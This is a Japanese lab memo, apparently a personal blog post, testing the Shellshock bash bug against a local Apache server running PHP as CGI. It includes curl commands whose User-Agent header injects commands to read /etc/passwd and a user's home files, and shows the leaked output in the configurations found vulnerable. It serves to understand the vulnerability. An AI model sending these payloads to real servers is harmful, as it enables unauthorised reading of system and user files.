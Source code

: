 ```yaml
---
Keywords: CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。

こういうファイルを準備。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/env php

<?php
	system('date');
?&gt;
```

<!--more-->

httpd.confのOptionsのところにExecCGIを追加し、
下にAddHandlerを書く。

```bash
 Options Indexes FollowSymLinks ExecCGI
 AddHandler cgi-script php
```

ホームの下にファイルを準備
```bash
[ueda\@localhost ~]$ ls -l mysecret 
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret
[ueda\@localhost ~]$ cat mysecret 
私の秘密
```

外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php
```

ログを確認。パーミッションで守られている。
```bash
[root\@localhost httpd]# tail error_log 
...
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: 
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] 
```

もう一度突っつく。別のものを。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
守られていない・・・。


今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
<?php
	system('date');
?&gt;
```

もう一度突っつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
Fri Oct 3 20:27:38 JST 2014
```
大丈夫。

もう一度CGIモードで。こんなコード。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

<?php
	print(&quot;hoge\\n&quot;);
?&gt;
```

```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null
hoge
```

大丈夫。

これは・・・
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

<?php
	system(&quot;date&quot;);
?&gt;
```

ダメ。
```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
